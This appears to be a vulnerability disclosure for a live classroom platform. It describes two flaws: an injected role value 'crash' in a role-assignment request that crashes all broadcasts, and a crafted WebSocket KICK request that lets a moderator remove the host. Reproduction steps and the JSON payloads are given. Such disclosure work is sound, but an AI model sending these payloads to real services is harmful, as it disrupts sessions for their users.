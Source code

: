 1. Log in as an admin and assign a moderator to a classroom.
2. As the moderator, intercept the API request for role assignment using tools like Burp Suite or browser developer tools.
3. Modify the request payload as follows:

```json
{  
    "request_type": "ASSIGN ROLE",  
    "payload": {  
        "role": "crash",  
        "user_id": "55150"  
    },  
    "request_id": "A1Kptpj0FIfef173-biAa"  
}  

```
1. Replace the `role` value with a non-standard string such as `crash`.
2. Send the modified request.
3. Observe the effects:

- ==All live broadcasts in the session will crash.==
- Participants will see the error message:

```
Something went wrong!  
Try to refresh the page  
  
id: ba32ad2f6da04119b3263b6d9cf30aaa  
TypeError: Cannot read properties of undefined (reading 'push')
```


> #2 Moderator Privilege Exploit: Kicking the Host from a WebSocket Session

# Summary

This flaw allows users with **Moderator** privileges to execute an unauthorized action: removing the **Host** from an active session. The exploit leverages crafted WebSocket requests using the `connection_id` of the Host.

# Details

- **Vulnerability Type**: Privilege Escalation
- **Affected Component**: WebSocket API for Session Management
- **Exploit Methodology**:

1. Moderators intercept WebSocket traffic using tools like browser developer tools or proxies.
2. The `**connection_id**` of the Host is extracted from WebSocket messages.
3. A malicious WebSocket request with the following payload is crafted:

```json
{  
  "request_type": "KICK",  
  "payload": {  
    "connection_id": "usr-conn-1ef9c55xu"  
  },  
  "request_id": "dME5ScO1R4kLK_STnmfUQ"  
}
```
